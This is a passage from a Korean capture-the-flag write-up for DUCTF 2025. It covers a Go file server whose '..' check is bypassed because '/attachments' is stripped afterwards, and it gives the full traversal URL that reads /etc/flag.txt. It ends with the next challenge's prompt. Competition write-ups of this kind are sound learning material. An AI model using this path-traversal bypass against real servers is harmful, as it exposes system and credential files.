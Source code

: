 
```go
func main() {
	r := gin.Default()

	r.GET("/*path", func(c *gin.Context) {
		p := c.Param("path")
		if strings.Contains(p, "..") {
			c.AbortWithStatus(400)
			c.String(400, "URL path cannot contain \"..\"")
			return
		}
		// Some people were confused and were putting /attachments in the URLs. This fixes that
		cleanPath := filepath.Join("./attachments", filepath.Clean(strings.ReplaceAll(p, "/attachments", "")))
		http.ServeFile(c.Writer, c.Request, cleanPath)
	})

	r.Run("0.0.0.0:1337")
}
```

go 언어는 하나도 모르지만 물구나무 서서 눈치껏 봐도 `../` 사이에 `/attachments`를 껴넣어 우회해야 하는 것을 알 수 있다  

레전드로 쉬워보이지만 왜인지 자꾸 안 풀렸다  
<br>

---

```Dockerfile
COPY --from=base /app/secure-email-attachments /app/secure-email-attachments
COPY --from=base /app/attachments /app/attachments
COPY --from=base /app/flag.txt /etc/flag.txt
```

저 원숭이 사진은 `/attachments/`{: .filepath} 속에 있기 때문에 상위 폴더로 두 번 이동해서 `/etc/flag.txt`{: .filepath}로 접근하거나 아예 `/etc/flag.txt`{: .filepath} 절대 경로로 이동하면 되겠다  
<br>

---

`http://chal.2025.ductf.net:30014/attachments./attachments./attachments/.%2fattachments./attachments/etc/flag.txt`

URL에 `/./`{: .filepath}를 넣으면 그냥 `/`{: .filepath}이 되버리기 때문에 `/attachments`{: .filepath}뒤에 `.`{: .filepath}을 붙였다  
`/`{: .filepath} 뿐만 아니라 `%2fattachments`{: .filepath}도 사라지는 걸 사용해서도 `/./`{: .filepath}를 만들 수 있다  
<br>

---

### mini-me

> The app looks scrambled and full of brainrot! But ther's more than meets the eye. Dive into the code, connect the dots, and see if you can uncover what's really going on behind the scenes, or right at the front!

